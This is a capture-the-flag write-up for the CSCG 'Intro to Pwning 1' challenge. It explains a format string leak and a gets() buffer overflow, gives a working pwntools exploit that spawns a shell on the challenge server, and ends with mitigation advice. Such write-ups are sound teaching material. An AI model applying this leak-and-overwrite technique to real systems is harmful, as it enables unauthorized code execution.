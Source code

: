 # Intro to Pwning 1

## Solution

Taking a look at the source code, it is pretty clear that we have a string format vulnerability in the function `welcome` and a stack-based buffer overflow in `welcome` and `AAAAAAAA`:
```c
void welcome() {                                                                                                                                                                                                   
    char read_buf[0xff];                                                                                                                                                                                           
    ...
    gets(read_buf);                                                                                                                                                                                                
    ...
    printf(read_buf);
}
...
void AAAAAAAA() {
    char read_buf[0xff];
    ... 
    gets(read_buf);
    ...
}
```
We also have a function `WINgardium_leviosa` that executes `/bin/sh` for us (how convenient):
```c
WINgardium_leviosa() {                                                                                                                                                                                        
    printf("┌───────────────────────┐\n");                                                                                                                                                                         
    printf("│ You are a Slytherin.. │\n");                                                                                                                                                                         
    printf("└───────────────────────┘\n");                                                                                                                                                                         
    system("/bin/sh");                                                                                                                                                                                             
}  
```

Running `checksec pwn1` gives us information about the security mitigations the binary was compiled with:
```
$ checksec pwn1
[*] '/home/layton/Desktop/cscg/Intro-to-Pwning-1/pwn1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Since the `NX-Bit` is set, we can't just execute shellcode on the stack and we also can't just jump to a static address for example the `WINgardium_leviosa` function due to `ASLR`.
We first have to leak an address with the string format vulnerabily which lets us then calculate the offset to the `WINgardium_leviosa`.
<br/> <br/>
After opening the file in gdb, we can simply type `r` to run the program and enter our format string:
<br/> <br/>
![](format_string_gdb.png)
<br/> <br/>
We can now see some hex values being printed and also a value starting with `5555` which is usually a stack value and can be used to easily calculate
the offset to the `WINgardium_leviosa`. Running `p WINgardium_leviosa` gives us the address of that function.
<br/>
With the next `gets()` in `AAAAAAAA` we can exploit the buffer overflow with the calculated values, we need however make the `strcmp` in `AAAAAAAA` return `0`:
```c
...
if(strcmp(read_buf, "Expelliarmus") == 0) {
        printf("~ Protego!\n");
    } else {
        printf("-10 Points for Hufflepuff!\n");
        _exit(0);
    }
...
```
We can bypass this by adding a nullbyte `\0` after `Expelliarmus`, due to C's nature of a null-byte meaning the end of a string.
<br/>
The final exploit then looks something likes this:
```python
#!/usr/bin/env python3

from pwn import *

format_string = "|".join(["%p" for _ in range(65)])

p = remote("hax1.allesctf.net", 9100)

p.recvuntil("Enter your witch name:")
p.sendline(format_string)

leaks = p.recvuntil("enter your magic spell:").decode("utf-8").split("|")

main = int(leaks[46], 16)
log.info(f"leaked main pointer: {hex(main)}")
win = main - 0x108
ret = win + 0x36

padding = b"A"*cyclic_find(b"cnaa")

p.sendline(b"Expelliarmus\x00"+padding+p64(ret)+p64(win))

p.interactive()
```

We enter the format string in the first `gets()`, get the address at the specific index, calculate the offset to the `WINgardium_leviosa` function and a simple `ret`
instruction which is needed to allign the stack. With the next `gets()` we exploit the buffer overflow and overwrite rip to point to the `ret` instruction and
then the `WINgardium_leviosa` function which executes the shell.

Flag: `CSCG{NOW_PRACTICE_MORE}`


## Mitigation

Mitigate the format string vulnerability by replacing `printf(read_buf);` with `printf("%s", read_buf);"` and the buffer overflow by using a safe alternative to `gets` such as
`fgets` that only reads as much characters as specified and set it to something smaller than the buffer size.

